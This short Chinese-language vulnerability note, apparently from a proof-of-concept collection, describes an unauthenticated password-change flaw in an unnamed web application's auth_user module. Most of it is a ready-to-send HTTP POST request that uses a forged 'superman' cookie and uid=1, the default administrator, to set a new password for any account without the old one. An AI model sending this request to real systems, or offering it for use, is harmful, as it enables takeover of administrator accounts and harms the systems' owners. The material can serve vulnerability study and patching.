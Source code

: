 无需登录权限,由于修改密码处未校验原密码,且/?module=auth_user&action=mod_edit_pwd
接口未授权访问,造成直接修改任意用户密码。:默认superman账户uid为1。

POST /?module=auth_user&action=mod_edit_pwd 
Cookie: username=superman;
uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
